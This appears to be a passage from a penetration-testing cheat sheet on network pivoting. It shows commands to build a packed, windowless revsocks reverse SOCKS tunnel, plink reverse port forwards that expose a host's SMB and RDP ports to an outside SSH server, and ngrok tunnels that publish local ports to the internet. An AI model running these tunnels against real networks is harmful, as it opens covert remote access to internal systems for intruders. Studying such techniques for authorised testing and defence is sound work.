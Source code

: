 
```powershell
# Build for Linux
git clone https://github.com/kost/revsocks
export GOPATH=~/go
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
go build
go build -ldflags="-s -w" && upx --brute revsocks

# Build for Windows
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
go build -ldflags -H=windowsgui
upx revsocks
```


## plink

```powershell
# exposes the SMB port of the machine in the port 445 of the SSH Server
plink -l root -pw toor -R 445:127.0.0.1:445 
# exposes the RDP port of the machine in the port 3390 of the SSH Server
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389  

plink -l root -pw mypassword 192.168.18.84 -R
plink.exe -v -pw mypassword user@10.10.10.10 -L 6666:127.0.0.1:445

plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]
# redirects the Windows port 445 to Kali on port 22
plink -P 22 -l root -pw some_password -C -R 445:127.0.0.1:445 192.168.12.185   
```

## ngrok

```powershell
# get the binary
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip 

# log into the service
./ngrok authtoken 3U[REDACTED_TOKEN]Hm

# deploy a port forwarding for 4433
./ngrok http 4433
./ngrok tcp 4433
```
